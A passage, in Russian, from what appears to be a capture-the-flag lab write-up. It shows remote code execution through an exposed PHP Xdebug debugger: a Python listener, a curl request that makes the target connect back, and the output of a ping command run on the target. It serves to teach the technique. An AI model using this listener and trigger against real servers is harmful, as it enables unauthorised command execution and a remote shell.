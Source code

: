 От гугл переводчика толку мало, да перевод особенно не требуется — по скриншотам из статьи легко прослеживает структура атаки. Сперва попробуем просто принять 2 ICMP-пакета в качестве PoC'а, дальше будем собирать шелл.

### Proof-of-Concept
1\. Первым шагом запускается Python-скрипт, слушающий дефолтный для Xdebug'а 9000-й порт:
```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

```text
root@kali:~# python olympus_shell.py

```

Тем самым мы готовимся перехватить коннект на скрипт и уйти в бесконечный цикл выполнения команд.

2\. Далее с помощью `curl` триггерится вполне легитимная (в теории) debug-сессия и мгновенно улетает на поднятый ранее листенер:
```text
root@kali:~# curl -H 'X-Forwarded-For: 10.10.13.180' 'http://10.10.10.83/index.php?XDEBUG_SESSION_START=phpstorm'

```

3\. После чего оживляется скучающий Python-скрипт. Пингуем нашу машину:
```text
root@kali:~# python olympus_shell.py
486<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="17" idekey="phpstorm"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
>> system('ping -c 2 10.10.14.14')
336<?xml version="1.0" encoding="iso-8859-1"?>
<response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="1"><property type="string" size="61" encoding="base64"><![CDATA[cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA2OC4wMDEvNjguMzQ2LzY4LjY5MC8wLjM0NSBtcw==]]></property></response>
```

